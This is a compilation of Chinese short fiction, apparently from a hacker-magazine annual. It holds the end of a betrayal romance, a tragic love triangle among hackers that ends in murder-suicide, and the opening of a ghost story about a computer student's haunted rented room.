我突然揪住萧然的衣领，大声叫嚷着说道：“萧然，亏我还把你当成好兄弟，而你却这样对待我！”

萧然淡淡地一笑“我说了我只对雨薇有感情，你只是拿来牺牲的。我从来都没把你当成兄弟，请你不要自作多情。现在你最好松开你的手，而且为了雨薇，我希望你不要再试图为你洗脱罪名了。”

NND，要不是警察就站在不远的地方，我非得揍死这小子，拿我当成白痴一样作弄。不过他口口声声地说到雨薇，雨薇那张憔悴的面孔就出现在我的眼前了。如果说为了雨薇，不要说是监狱就是生


# 侠隐仙踪

命我也不会皱下眉头的。

萧然走了，我也没有要求任何人去追查我无罪的证据。对于警察的追问我也不去争辩，也不去争论我是不是无罪，反正只是保持沉默。

不久之后我就要宣判了，乡下的父母一把鼻涕一把眼泪的在我面前哭诉我的不争气。看着爸妈充满沧桑的面孔，长时间在太阳下风吹日晒那张脸已经长满了皱纹，眼泪一滴滴顺着皱纹流淌下来，让人心酸。爸妈生养了我，却要眼睁睁的看着我锒铛入狱，满头白发的爸妈将来要靠谁呢？可我却无法回头。

我自以为自己很伟大，为了自己心爱的女人可以付出一辈子的自由。可是当我看到美丽的雨薇时，我觉得我其实是一个傻瓜。

雨薇递给我一张体检报告，上面显示着雨薇的身体很健康，比犀牛都健壮。我极度惊讶的说道：“可是你总会晕倒啊？！”

雨薇不好意思的笑了笑：“那是因为我吃了减肥药，那种药就会让人拉肚子，而且需要节食，所以时常头晕啊！”

啊！？天啊，因为这样才时常头晕的吗？突然想起雨薇曾经做过骨髓检查，我又好奇的说道：“可是你为什么要做骨髓检查啊？”

雨薇生气的说道：“我哪儿知道为什么要做那个该死的检查啊，反正你带我做的，我就做了。害的我一直以为自己得了什么绝症呢！”

晕了，那我还在这里装什么伟大啊，谁陷害我谁去坐牢吧。

雨薇嘟囔着小嘴，一副很委屈的样子说道：“还有啊，萧然的公司根本就没有破产，那么大的一个文化公司说破产啊？你以为是摆地摊啊？嘿嘿……”

我大脑里冒出无数黑线，原来我是天字第一号大笨蛋。原来被萧然这小子给耍了，而且耍了这么久。我所有的悲伤都是这小子给我散发的烟雾弹，害的我在这伤悲的闹剧中悲伤的死去活来。

雨薇笑眯眯的说道：“我已经把那个U盘找到了，还有找了很多医生为你证明，还有哦，上次我入侵了你家电脑阻止了萧然利用你电脑入侵中国银行。那个时候我就用你的电脑安装了一个跟踪器，这些我都已经交给警察了。记住你答应过我的，要我，要我，你出来的时候，不要忘记你的承诺哦！”

雨薇笑的很美，在她的笑容中我似乎看到了明天美丽的阳光还有今后每一个美好的日子。

离开看守所的日子，也是萧然双手被拷着走进来的日子。对于曾经的挚友和今日的仇敌，我已经无话可说了。只想尽快离开这个地方，本以为雨薇会来接我，但是走到外面却只是来来回回匆匆而过的陌生人。略微有些失望，但是想到今后美好的日子，这些又算什么呢？

看守所的警卫给我一封信，说是一个漂亮的女孩子说要留给我的。呵呵，我拆开信，看来是雨薇最后的纪念！

没有想到雨薇还这样浪漫呢。难道是你要给我的惊喜吗？

心急的打开信，居然是田甜写给我的：林小木，当你收到这封信的时候，也许我和萧然已经走进了看守所。对于这些日子以来对你的伤害我很抱歉。雨薇找过我，她的话让我明白了很多。她说如果我是无私善良的，就不应该助纣为虐，帮助萧然伤害她和你。如果我是自私小气的，就更不该为了帮助萧然夺人所爱，牺牲自己的幸福。是啊，我早该明白这有多么的愚蠢。林小木，我由衷的希望你和我雨薇可以幸福，雨薇的病已经不能再拖下去了。为了能让你相信她没有事，我亲眼看到她用化妆品一点点擦去脸上的憔悴，她要你相信她多么健康。在那一刻我终于明白了爱真正伟大的地方。希望雨薇的病能够好起来，而你能够永远快乐。

风有些凄冷，我跪在原地，欲哭无泪。这一切到底为了什么呢？

接下来的日子里我每天都徘徊在这个城市的大街小巷上，寻找着遗失的未来。我们的大学我寻找过无数次，因为那里毕竟是我们相爱的地方，而我们曾经一起去过的地方，我也重蹈覆辙。可是她就像是在人间蒸发一样。如果早知道今天这一切，我会承担所有的罪名，至少我还知道她在哪个角落，是不是还好。

经历无数失望之后，我开始茫然。如果爱几经辗转，历经离别与悲伤仍然不能完整，那么放手释然是否是爱你最好的方式？

如烟说这个世界上人们所谓的疼痛，都不是真正的疼痛。那些能称得上疼痛的东西已经不再疼也不在痛了。疼之切，痛之深便是麻木。

那幢房子金色琉璃，耀眼绚丽，全身上下散发着一种骄傲，在午后慵懒的阳光下，漠然挺立，像极忘却尘埃旧事的老者。

白色的衣衫在微风中抖动，抖落一地妖娆的阳光。那一刻我的世界都为这个白衣男子所倾斜。目光迷离的看着他踏上自行车，飞驰而去，微风中衣袂摇曳飘荡！

看到林木离开后，我才把目光收回，离开阳台坐在电脑前久久的沉思。一支香烟燃尽之后，手指在电脑上飞快的跳动，一行行，一页页，林木木这三个字在word中由少变多，在我心里再一次的由浅变深。

如果对一个人的感觉无法抑制的时刻却还要拼命的抑制，久了便会抑郁成灾。

金色夕阳的光芒一点点的洒落，最后一点橘红在天边跳动，瞬间没落只是眨眼间的事。夕阳无限好，只是近黄昏的那种伤悲油然而生，那种忧伤是没有来由，亦没有去向的。这个时候最想躲在一颗高大的月季花下哭泣。至少掉眼泪的时候还会有一个遮挡，不必把憔悴不堪，懦弱无能给予在别人的眼前。

你是在哭吗？

如烟的声音很好听，带着山泉水般的清澈。以前都是站在阳台上看着林木木的后车座上的如烟，飘荡的白裙在迎风摇摆，与仙女无疑。今天，她近在咫尺的站在我的面前，看着她弹指可破的肌肤，那动人的容貌，一笑一颦带着晚霞的光芒，如此醉人。我只是一个站在仙女面前的凡人，仅此而已。

我哽咽止住哭泣，抹掉眼泪，飞奔回家。我终于明白天使和人之间有着一段无法逾越的高度，林木木是我穷尽一生都无法触及。而我们之间的距离是如烟，那个网络安全界的神话，那个凡人中圣洁的仙女。为了一个高不可攀的距离，我还拼命的追逐什么？

我决定不再三点准时守在阳台看着林木木，不再整天看着忧伤的小说。身边常常放着一本网络攻防的书籍。常常在寂静的夜里孤独着，学习着，忘我般的钻研。深夜，有些倦意，才抬起头透过纱窗看着对面林木木房间里那朦胧的灯光，突然一阵心酸的温暖。

这世界上总会有些偶然，比如我在楼下看到如烟醉在另一个男人的怀里，比如我在林木木的技术论坛里看到他那些让人疼痛的文字，比如那场车祸里我推开了林木木，受伤的人是我。

当我在病房里醒来的时候，第一次那么近距离的看到了林木木。微微上翘的睫毛盯着笔记本电脑抖动着，沾满了阳光和朝气。那目光甚至可以让人一个疯狂的着迷。

本想一直这么看着林木木，甚至幻想永远如此。可是麻药过后的疼痛，让人无法忍受，轻声的呻吟终于结束了寂静的沉默。

林木木关切的眼神让我有一种幸福近在咫尺的错觉。他说，你好些了吗？担心死我了。

我忍住雀跃的心情，笑的谈谈，摇头说没事，并且告诉他我叫冷春，寒冷的冷，春意森然的春。

林木木笑着，像极了初春三四月绽开的桃花，嘴角轻轻的上扬，一抹清新，醉人。

我认识你，以前总是在下午三点看着窗外的景色，有一次躲在月季花下哭。那次哭过之后你再也不在三点看风景，而是熬夜凌晨一点左右睡觉。

他的话让我受宠若惊，这份单恋似乎是阴雨天里的一缕阳光。我重重的点头，羞涩的低下头。有些时候爱一个人的感受，是在起起伏伏的悲伤喜悦中挣扎。如果不是林木木接到如烟的电话，风风火火的跑出去，我还以为林木木至少对我有着一份特别的感觉。

林木木走了，一阵风儿似的。留在整个病房的是整个夏天的烦热。心凄凉的疼，我强忍着疼痛坐了起来，好奇张望。看着他的电脑里到底隐藏着什么。喜欢一个人，就会想尽办法去探究他身心的秘密，以为这样可以更了解更接近。

但是我看到的是自己的心伤，电脑屏幕上面是一个肉鸡的屏幕，这个肉鸡被林木木命名为如烟。那个如诗如画，那个黑客技术高超的女子。刚刚绽放的心花在这一刻迅速的颓败凋零。我强忍着眼泪，告诉自己这份感情是个错误。

挪动着僵硬而又疼痛的身体，一整个下午我都坐在轮椅上看着下午柔美的阳光。晚上爸妈过来送些吃的给我，妈妈哭着说，冷春，你以后走路的姿势会很难看。

我淡淡的笑着，说着好听的话安慰着妈妈。因为我很明白，我的世界没有林木木，什么都无所谓了。残疾，疼痛都无关紧要。

黄昏我凝望着医院那幽静的小路，透过玻璃窗我看到了欢笑，哭泣，奔跑的孩童，步行艰难的老者。我不知道这样的人生里，我在扮演着怎样的角色。

今夜恐怕他不会回来了。我把林木木的电脑放在眼前，浏览他去过的网站，整理他喜欢学习的技术，喜欢的颜色，生日……

明知他不会再来找我，我还是等到了凌晨一点。看着夜空，点点繁星忽闪的无力，仿佛它们也开始疲惫。

合上林木木的电脑，我想如果我不能成为林木木的唯一，那么就做给他幸福的天使。

这个夜晚，我在梦里百转千回的寻找，我看到如烟在他的怀里幸福的笑，而林木木笑得比夏日的阳光还要灿烂，他们住在那幢有着金色琉璃的城堡里。而我有着一双翅膀，翱在半空中看着他们幸福，我欣慰的笑，笑到哭，泪水沾满了天使的衣裳。

天边一丝鱼白色的光亮，启明星发着微弱的光芒。白色的窗帘在晨风中抖动，发出轻微寂寞的声响，摇摆着身躯却也无法驱赶沉寂的空气。打开日光灯，林木木躺在角落的沙发上睡的很熟。像是一个不染凡尘的天使。

他睁开眼睛想给我盖下被子，却正好与我的目光相遇。他笑，满脸的温柔让我多睡一会。我却坐了起来，看着太阳是如何一点点的挣扎，爬出云层，跳跃出来的。林木木一直都坐在我的身后不说话，双眼紧盯着他电脑幽蓝的屏幕。我知道此刻如烟开始上网了，林木木的心也跟着起伏了起来。

我轻声的叹息，眯着眼睛看着林木木专注的样子说。林木木，我做你妹妹吧，你要像对亲妹妹一样对我好。

林木木错愕的抬起头，眼睛里的情感很复杂。很久很久之后才打破沉寂问我为什么？

我笑，告诉他我没有哥哥，想有份被哥哥宠坏，保护的感觉。

林木木说好，我却在那一刻开始悲伤，既然不能成为他的唯一，至少可以成为他最亲近的人，可是做了妹妹就再也与恋人无缘了。

我抬起头看着林木木，以妹妹的语气撒娇的说哥哥，我要喝粥，八宝粥。林木木笑笑，温柔的拍着我的脑袋，说马上就好回来。

人家说天使与海豚即使相爱，也无法在一起，因为没有鱼鳍，一个没有翅膀。但是它们至少遥望。所以我选择站在一旁遥望。看着如烟和林木木每天都在我们的面前晃来晃去，强忍着心酸大声的笑。

几个月一晃而过，我开始学会了隐藏，学着假装快乐。每次都是听着如烟和林木木在一起争论技术到面红耳赤，而我不时的忙着入侵。我希望有一天可以参与如烟和林木木的话题。我能只能默默的拿着一本书，看着那些不懂的地方勾勾画画，却不知我身边的两大高手。那样我会觉得自卑，还记得我第一次问林木木什么是ve的时候，如烟眼中闪过的轻蔑，伤的我体无完肤，我明白我在他们心里只是一个比菜鸟还菜的小丫头，可我还是想飞翔，飞在林木木如烟的身边。

我以为一切都会这样完美的走下去，直到我再次看到如烟醉倒在别人的怀里时，我的心开始疼痛，为了林木木。

那天我像个疯子一样把如烟从那个男人的怀里抢夺出来，我真的很想狠狠的抽如烟两巴掌。但是我看到如烟眼里隐忍的泪水，似乎她的悲伤她的疼痛更加的沉重。我扶着她坐在月季花下，她眼中的泪，终于倾泻，一滴滴一行行落在我的衣服上，那些辛酸的眼泪打湿我的衣裳，我的心在她的泪水中沉沦。

我，迷醉的她。一起坐在月季花下，看着那娇艳的夕阳在天边努力的跳动着，挣扎着。却还是沦陷在夜的黑暗下。

如烟说，在这个世界上最疼爱她的母亲，但夜弃她而去。

如烟说，林木木不爱她，只爱电脑里面的那一场。那里面有他灵动的女子，有他一心向往的世界。为了他，她努力的学习技术，却依然无法走进他的宫殿。

如烟说，香烟弥漫里她看清了自己，看清了她垂涎已久的爱情。

如烟说，讨厌酒的辛辣，却喜欢醉了之后那种飘忽，自我发泄的感觉。至少在这样的情况下对于爱和生活还有些许希望。

如烟说，这个世界上人们所谓的疼痛，都不算是真正的疼痛。那些能称得上疼痛的东西已经不再疼也不痛了。疼之切，痛之深便是麻木。

如烟说了很多，到最后说到累了，倦了，像个无助的孩子一样在我的怀里沉睡。我紧紧的搂着她盯着黑暗中亮起的一盏盏光芒，跳动的霓虹也拼命的为这个夜晚平添几分姿色。我为什么不能让相爱的人幸福呢？我想做夜晚的霓虹，给林木木，给如烟的世界平添一份美丽。

谁愿意在一场一厢情愿的单恋中流连忘返，只是爱的深刻了，复杂了，也就无法自拔了！

我把衣服披在了如烟的身上，搂着如烟在月季花下一坐就是一整夜，我想和她一起看黎明。想给她爱情与生活的希望。

清晨，露水打湿了我轻薄的衣衫，林木木出现在我面前的时候，我不在的发抖。天旋地转，头昏脑胀。我笑笑说，她睡的很轻，一夜未醒。

林木木看着如烟的眼神那样的复杂，应该说是又爱又恨。摇了摇熟睡的如烟，用一种决绝，冰冷的口气说，睡够了吗？

如烟睁开眼，看着眼里的林木木，绽开的笑容立刻消失隐去。

林木木看了看我，不知为何眼里竟然无限的心疼。狠狠的对如烟说，你也不小了，任性，放纵，自私。你从来都不为别人着想。冷春身体不好，你还在这里和她整夜的坐着，你倒是穿的很暖，你看卡冷春，浑身都被露水打透了。你明明知道她身体不好。林木木最后一句话是歇斯底里喊出来的。像是内心装满了满腔的愤怒。

接着如烟死盯盯的盯着林木木，像是一匹要吃人的狼。我很害怕，不知道为什么一向那么疼爱如烟的他发那么大的脾气，如烟那么一个温柔完美的女子眼睛里会有那么可怕的神情。

我颤抖着声音告诉林木木说我的错，我没有送如烟回家，是我让她在这里和我看夕阳的。

林木木怒气冲冲的看着我，一样怒吼着说，你没有错吗，你明知道身体不好，为什么不知道爱惜自己呢？

我哭了，低下头轻声的说着对不起。林木木颤抖着双唇，很久才抚摸我的头说，别哭了，回家熬些姜汤吧。

如烟用一种决绝的口气说：“林木木，你会后悔的。”她笑了，笑的极其的妩媚，吹着口哨离开了这尴尬的境地。虽然她表现的那么无所谓，但是我在她的目光中看到了绝望的悲伤，被恨所充斥。背景凄凉肃然，我仿佛在她的悲伤中看到了一场惨烈的风暴在酝酿着。

林木木咬着嘴唇不挽留，我看不清她远去的脚步，他愤怒的表情。只是感觉头嗡嗡作响，眼前的一切都开始模糊不清，像是梦境一般不真实，我软软的躺在林木木的怀里，真想永远的沉睡。

严重的高烧让我昏睡了几天几夜，昏昏沉沉的睁不开眼睛。就好像快要死掉了一样。在这段日子里我每天都会听到一个声音呢喃的祈祷。每次睁开眼睛看到趴在我床边的林木木都会感到温暖。

我以为爱若不是心心相印，怎么会牵到彼此的手。所以当林木木抓紧我的手时，放在唇边深情的亲吻时，我问他：“你的心是不是一直都留给如烟的，此刻我只是一个替身。”

林木木轻抚我的发，叹息着说：“怪不得你总会躲闪着我，你以为我是喜欢如烟的，其实我那么照顾如烟是因为她爸和我爸都是一个警队的，有一次抓歹徒，她爸替我挡了一刀身亡了。如烟妈妈很早就离开他们父女了。所以她爸死后就一直都在我家里生活。我们全家把对于她爸的内疚和感激都给予了到如烟身上。所以从小到大的前就宠着她。让她任性，让她放纵。可是她却越来越过分，直到触碰到我的底线。我不知道她是不是故意热爱个你在外面呆了一整夜，但是我很心疼你，我和你，在我的心里有一万年那么久。我看到你在阳台上忧郁的脸，深夜坐在电脑前的身影，月季花下哭泣的眼，都让我着迷。但我却不敢把这份爱说出来，怕你的拒绝，也怕如烟受伤。”

林木木苦笑着，轻轻的把这个大男孩搂在了怀里，任由他在我的怀里脆弱，疲惫。一闭眼如烟的模样又出现在我的面前。我温柔的说：“那你快去把如烟找回来吧，她很喜欢你，无论怎样我不希望你的人生里留有遗憾。”

林木木用一种陌生的眼神看着我，愤怒的说：“难道你希望我和一个不爱的女人在一起，一辈子都得不到幸福，你这么做是为了让我今生无憾，还是成就你的伟大？”

我从来都不知道在他的心中，我的分量是一辈子那么沉重。我把他拥的更紧，重复着说：“不，我不要和你分开，不要……”

外面的阳光人漏天的花雨一样飘飘洒洒。

时间一过三年，如烟一直都没有任何消息。有人说她找到了自己的母亲，也有人说她嫁人了。三年来我和林木木一直都没有放弃寻找她的踪迹，她对我们也很好，怨也罢，我们只想知道她好不好，快不快乐。

三年，林木木有了自己的网络公司，成为了中国史上为数不多的广告联盟。除了如烟成了我们心中的愧疚和不安，似乎一切都看起来很完美。遗憾终究是遗憾，无法弥补的。生活依然是生活，还要继续走下去。

十月，我就要嫁给林木木了。但是我人生中最重要的一天，却被悲伤所覆盖。

这一天我身着白色的婚纱，脸上绽放着幸福的笑容。每个人都在祝福着我。我安静的坐在房间里等着林木木来接我，心里被这巨大的幸福填满了。可是时间一点点的流逝，林木木的婚车依然没有驶来，电话也没人接听。内心里的幸福开始被恐慌和不安所替代。

这时姑姐家的孙女拿着一封信，一脸天真无邪的对我说：“姑姑，姑姑，有个姐姐给我糖吃，让我把这个给你。”

我结果信，颤抖的打开信，上面只有几个字：我诅咒你，你和我一样不能和心爱的人在一起，一辈子都沉浸在悲伤中。

那封信飘飘荡荡的落了下去，我的大脑里一片空白。不能和心爱的人在一起是什么意思？我挣脱家人的阻拦，疯了一样飞奔出去。坐在出租车上哭泣着。我不知道等待我的是什么样子的噩耗。但是我希望一切都还来得及。

林木木和我都是在一个小区里，如果他不在里就一定在公司。到了公司，我走下车，林木木的公司围着好多人，我的眼前一切都是模糊的，我害怕极了。心里一遍遍的告诉自己林木木没有事，他会今天和我结婚的。

我拨开人群，地上开着许多血色妖娆的玫瑰。在阳光下泛着耀眼的光芒。如烟白色的裙摆上全都是那鲜亮的颜色，她的双手紧紧抓着林木木的礼服，紧紧的。林木木和她躺在一起，身下同样是大片的血液，双眼空洞的望着天。是哀伤还是绝望？如烟致死也没有原谅我们，至死也没有放过林木木。

如烟的手里拿着一封血染的信。

我深爱着林木木，用父亲的抚恤金给林木木开了家网络公司，林木木喜欢黑客技术，我就学习黑客技术，林木木希望我从此不要在骚扰冷春，我就去德国深造经济学，可三年后，林木木要娶的却是冷春。

我入侵了林木木的公司，让他一无所有。可是他却依然坚持他对冷春的承诺。那么这么多年来，我到底扮演着什么角色。今天我要带着他一起走，永远的在一起。

我像个傻子一样坐在地上痴痴的笑，林木木你到底是一个怎样的人？爱要为什么几经轮回，也无法渡化成幸福。兜兜转转还是回到一无所有的起点，留下的却是伤痕无数。

## 2008合订本上卷

## 鬼网迷魅（一）

海边一粒沙

### 初遇电脑里的女鬼

深夜，微弱的烛光闪烁在寂静的夜里，飘忽不定的火光，幽游，阴森，冰冷。窗户不知什么时候打开了，晚风嘶吼着，不停敲打着窗玻璃发出刺耳的碰撞声。窗帘抖动着，映在地上的影子也跟着摇曳起来。

东方皓哲半夜醒来的时候，被眼前这一幕吓到了。初夏的夜晚房间冷的像个冰窖，不知道什么时候电脑桌上点燃着一根蜡烛，随着窗口吹进来的风儿飘忽，却不熄灭，寂静的空气里窗玻璃喀喇喀喇的拍着墙壁，东方皓哲感觉现在的他正置身于地狱一般。

十五分钟过去了，东方皓哲一直都躲在被窝里冒着冷汗一动不动，所幸窗口没有突然冒出一个鬼头，也没有女人的阴森凄凉的哭泣声。一切除了诡异一些，没有其他可怕的事情发生。东方皓哲挪动了一下僵硬的身体，现在他发现自己的身体冰冷的，像个死人。

又等了十分钟左右，东方皓哲才从被窝里爬出来，按了按墙上的开关，灯没有亮。停电了？那么是谁给自己点亮了这支蜡烛。东方皓哲颤抖的看了看门锁，完好无损，并且依然上着锁。

东方皓哲咬了咬嘴唇，有点疼，说明这一切都不是梦。他不假思索的关上窗户，躲在被窝里听外面风嘶吼着敲打着窗玻璃，大脑里一片的空白。东方皓哲本就想这样熬到天亮，可是没有想到本来漆黑的电脑屏幕，突然一下子亮了起来，显示器上面的画面从模糊到清晰，黑色的画面慢慢的变得惨白，画面上出现一幢高楼，而地面上躺着一个女人，乌黑的长发纠结着暗黑色的血痂，在惨白的画面上刺眼而又恐怖。女人尤其突出的是那双惊恐而又不安的双眼，一行行血像是眼泪一样涌了出来。安静的房门，飘忽的蜡烛，诡异的夜晚，电脑屏幕出现的一幕，足以让人发疯。

同样，东方皓哲现在已经到达了忍受的极限。他不顾一切的打开了房门，飞奔出去在空旷的街道上。他不知道要去哪里，唯一能去的就是同学的宿舍。翻过学校的大墙，敲开同学宿舍门的时候，就被宿舍的几个死党打个半死，罪名是影响祖国的花朵正常休息。当几个死党泄了恨之后，才发现今天的东方有些不对劲。双手抱着双腿，浑身颤抖的蹲在寝室老大床的脚，脸色苍白。

寝室老大对于刚才的暴力行为感到抱歉的说道：“东方怎么了？发生了什么事？”

东方颤抖的说道：“半夜，我莫名其妙的醒了，屋子里停电了，有蜡烛，电脑里有个女人。”东方语无伦次的叙述着今晚的厄运。

当东方说完这番话的时候，寝室里几个人异口同声毫无同情心的说道：“东方这小子在梦游不要理他！”

寝室老大表情凝重，一脸友善的摇摇头说道：“不对，我觉得他是搬出去后悔了，又不好意思申请回归本队，所以在这里装疯卖傻！”众人狂晕，不愧是寝室长，说话果然恶毒，一针见血。

东方被老大的话差点没气死，破口大骂道：“靠，要不是你们把我绑了起来，然后毫无人性的把我扔到床底下，又惨无人道的把你们那几个臭袜子塞到我嘴里，一直让我在床底下呆了一天一夜，我能脱离组织吗？”

寝室老大对于东方的申诉不屑的派出了全寝室口才最好的老三。老三推了推眼镜说道：“东方同志，请你先不要激动，错总是有先有后的，要不是你每天都弄你那个破电脑到深夜两点，而且我们几个也是在苦口婆心规劝无效的情况下，才强制执行了非人道行为。”

“好了，不要吵了，现在是什么时候啊？还吵？凌晨四点，我相信东方。总觉得他说的不是假话，里面一定有内幕。”寝室里面的小诸葛老二低着头沉思了好久后说出了一番让大家折服的话。东方终于找到一个知音了，恨不得马上给老二磕两个响头。老二接着不紧不慢的说道：“不过也不排除，东方有精神错乱的可能性。”

听完老二最后一句话，东方皓哲差点没有晕过去。不过老二沉思了很久又说道：“东方，我劝你还是不要太沉迷电脑了，也许长时间接触电脑，幻想自己会成为黑客帝国里的那个男主角而产生错觉呢！今晚你先在这里睡吧，明天我们一起去你租的那个小屋看看，然后看看是驱邪还是去看心理医生。”

老二的话虽然让东方觉得不舒服，但是却说的头头是道，小声嘀咕着：“做黑客有什么不好，至少可以在网络中叱咤风云，总不像你们一样成书呆子吧！”

老二看了看东方说道：“我们是书呆子，但是你有精神病的嫌疑。”东方哑口无言了，明明知道这是一场没有结果的口舌之战。

天空灰暗的让人觉得无法呼吸，东方皓哲感觉胸口像是压了一万斤的石头，努力的睁开双眼，四周惨白惨白的，眼前是一幢直冲云天的高楼，东方皓哲仰望着高楼，总觉得很熟悉，在脑海里记忆深刻，却又一时想不起这是哪里。东方皓哲抬起头，头顶没有太阳，没有云，天空不是蔚蓝的也不是灰色的，而是白色的，就连这片天空都觉得那么熟悉。有一种感觉让东方觉得这里很可怕，眼前的一切越是熟悉越让他觉得可怕。

东方皓哲努力的挣扎着，想站起来尽快的离开这里，可当他双手触摸地面支撑自己身体起来的时候，才感觉到身边躺着另一具身体，当他触及这具身体的时候，一种阴冷的感觉马上传播到了全身，瞬间全身麻痹了起来，身体不由自主的又倒了下去。他回过头，却吓得魂飞魄散，身边躺着一个女人，乌黑的头发散乱的纠结着暗黑色的血痂。身下暗红色的血液还在不停的蔓延着。一双眼睛死死的盯着东方，眼睛里流着血泪一直滑落到嘴角。而嘴角轻轻的上扬着，带着忧伤凄凉的微笑看着东方说：“救我！”声音干枯，凄凉。

“啊……”东方皓哲猛然从床上坐了起来。寝室里的几个兄弟差点被东方这惊魂一吼吓得背过气去。

东方迎着大家差异惊魂的目光，擦了擦脸上的冷汗，毫无精神的说道：“现在几点了？”

老大好半天才缓过神来：“中午了，十二点四十五分！”

东方不高兴的说道：“怎么没喊醒我啊，不是说要一起去我的那个鬼屋的吗？”东方自嘲的笑了笑。

现场比较震惊的就是老二了，眼睛从一本军事书刊上挪到东方苍白的脸上：“大哥，你发烧三十八度七，我们充分发挥了救死扶伤的精神，都在你身边守着你呢！”

老四点了点头说道：“嗯，你不知道，你可把我们几个折腾苦了。一会儿吐，一会儿说胡话，要么就是要水喝。病好了啥也别说了，请我们吃肯德基吧！”

东方感激的看着几个人说道：“谢谢你们，口头表示感谢，至于肯德基可不可以换成拉面！”

寝室那几个饿狼强烈抗议道：“不行，明显不是一个档次！”

东方极度沮丧的低下了头，刚才的噩梦又涌上了心头。马上揭开被子，穿上衣服说道：“好，肯德基是白吃的吗？大家一起去我的鬼屋，研究一下情况，这事不调查清楚，不要说肯德基，连鸡粪也别想看到。”

老二扶起了摇摇晃晃的东方说道：


# 侠隐仙踪

“你没事吧，要不要过几天再回去吧！”

东方摇了摇头说道：“今天就去吧，我可不想让你们怀疑我是精神病患者。”

大家见东方这么坚决，全都蛇蜕皮一样的甩开凌乱的被子，浩浩荡荡的跟着东方走了出去。东方在走进自己租的小屋前还有些心有余悸。刚走到门前的大家看着敞开的大门，一副惊讶的样子说道：“东方，昨天晚上你跑这么跑到我们寝室去的啊？门都不锁，你也真够大胆的。不怕你那个宝贝电脑被人偷了啊？”

东方这才想起来，原来昨天太害怕了，走的时候连门都没有锁。经大家一提，才担心起自己的电脑。连忙夺门而入，房间里一切安好，只是房间中央躺着一个陌生的男子，脸色苍白的躺在屋子中央。

几个人连忙架起地上的那人摇晃着说道：“喂，喂，起来，你是谁啊？快点起来！”

经过几个人的呼唤，男子终于迷迷糊糊的睁开了眼睛，看了看四周，呼吸开始变得越来越急促，紧张而又恐慌的说道：“有鬼，有鬼……这屋子里有鬼！”

几个人还没明白是怎么回事的时候，这个男子就开始疯狂的挣脱大家的手，情绪激动的想离开。可当他看到紧挨着大门的东方时，呼吸开始更加急促，不能自控的喊叫着说道：“不要，有鬼，有鬼……”边喊边向窗口跑去。

“卡擦”玻璃窗破碎的声音在恬淡的下午格外的刺耳。在场的人都被吓懵了，良久老四才惊魂未定的说道：“这哥们真猛，连六楼都敢跳啊！”

不过老四刚说完，大家的心又都悬了起来。六楼！这小子跳了下去岂不是必死无疑吗？

大家战战兢兢的走到窗前，小心翼翼的向下面看去，那个胆大的小子安静的躺在楼底下，双眼充满了不安和惊恐的盯着六楼，身体不断的抽搐着，身后开着大片猩红色的花朵。旁边围着一群看热闹不怕事大的围观者。

大家的脸色一片苍白，忐忑不安的同一个目光投向了东方。东方同样脸色苍白，颤抖的说道：“不要看我，我也不知道该怎么办！”说着把目光转向了老二。

老二脸都被吓的没有血色了，但竟然保持着冷静的拿出电话说道：“报警！”

三分钟后，楼底下来了一窝的警察，当然不由分说就把东方一群人带到了警察局。经过四十八个小时的拷问，几乎把所有的人都折磨的快要发疯了。当然发疯的不包括警察，因为警察轮班审问，而东方几个却连眼睛都不能合。不过最后警察还是把东方几个人放了，最终做出了如下解释：“跳楼的男子，是一名惯偷，跳楼前的两个小时，到东方暂住的出租房行窃，但是他说自己看到了鬼，跳楼前也看到了，太激动就跳了下去。基本上跟你们几个没什么关系。”警察不相信的说道。

大家同时都送了一口气，良久东方才不放心的问道：“那他伤势怎么样了？没事吧？”

警察漫不经心的回答道：“幸好他跳下去的时候被二楼门前的一个吊棚挡了一下，起到了一个缓冲的作用，要不然他这条小命也算是交代了。这样倒也太帮你们了，要是他死了，你们就可说不清道不明了。不过他现在全身多处骨折，而且我们怀疑他精神也有问题。”

大家了解了全部情况后，心情大好。总算是没出人命也没出冤案。不过东方却陷入更深的沉思，不管怎么说那个小偷和他一定有过相同的遭遇，不然两个人都精神错乱了吧。老二拍了拍东方的肩膀说道：“别想那么多了，一会儿吃点东西，回寝室睡一觉再说吧。”

东方勉强的笑了笑，不好意思的说道：“对不起，连累各位兄弟了！”

老四是个东北人，比较豪爽，一听东方这么说，马上就吹胡子瞪眼的说道：“东方皓哲，你这话是啥意思啊？我们几个就那么小气啊？我们是哥们，以后这话少说啊，我不爱听。呆会儿这顿洗尘饭，你请了。我们继续帮你调查这事，我就不相信这个世界有鬼，鬼也是人弄出来的。一定要调查到底。”

东方摇摇晃晃的扶着老二的胳膊说道：“老四啊，饶了我吧，我现在毕竟还是个病人啊，你这么宰我于心何忍啊？”

老大点点头，赞同的说道：“对，东方也为这事上了不少火，今天别让他请了，一会儿大家AA制去吃饭，回来之后去东方的出租屋调查一下，然后再回去睡觉。我们对东方的好，他一定会记住的，这事结束了要请我们吃韩国烤肉，是吧，东方？”

东方现在很想让大家集体失忆，把刚才这段话彻底的从大家的脑袋里抹去。他们进了一个28元的自助餐馆去填补饥肠辘辘的肚子。一走进餐馆几个人就拿起了筷子进行了一阵风卷残云的扫荡，服务员连忙跑进二楼把老板找了出来，小声的嘀咕说来了几个砸场子的。

当几个人酒足饭饱后，餐馆里陈列的食物已经所剩无几了。带着餐厅工作人员惊异的表情以及食客们敬意的眼神，一群人浩浩荡荡有声有势的挺着肚子走出了餐馆。重新又来到东方的鬼屋，大家都觉得有点阴森的感觉，也许是因为几天都没有人住的原因，也许是因为东方和那个惯偷的描述。不管怎么说都给这个屋子平添了几分诡异的色彩。

房间的陈列依然如初，猪窝一般的凌乱。曾经有一位伟人说过，一个没有女主人的房间大多数是个没有硝烟的战场，而一个搞计算机的男生又没有女主人的房间绝大多数比战场更加恶劣，在此基础上再添加一个猪窝这个名词更加的恰当（这位名人，就是作者在下本人）。

很显然警察已经在这里进行了一场彻底的搜查，当东方他们来的时候几乎没有什么证据可言了。几个人折腾大半天什么都没有找到。老三一副忧国忧民的模样说道：“天啊，那要是有什么血迹啊，尸体什么的，不都被警察发现了吗？”

东方一拳捶了过去，暴怒道：“什么血迹，尸体的，你以为我是杀人犯吗？我这屋子怎么会有这个东西呢？”

老三跌坐在地上，勉强的扶着墙爬了起来说道：“还说你自己很清白呢？刚才一拳差点点杀了我！再说我只是害怕警察掌握对你不利的证据，就算是一些诡异的线索，也会让警察对你产生怀疑的。”

“警察什么都没有发现，如果发现了什么我们也不会这么顺利的出来。不过老三，我在你的身后看到了一个人头！”老二沉着冷静的说出这些话的时候，老三惨叫一声向前跳了几米之远。

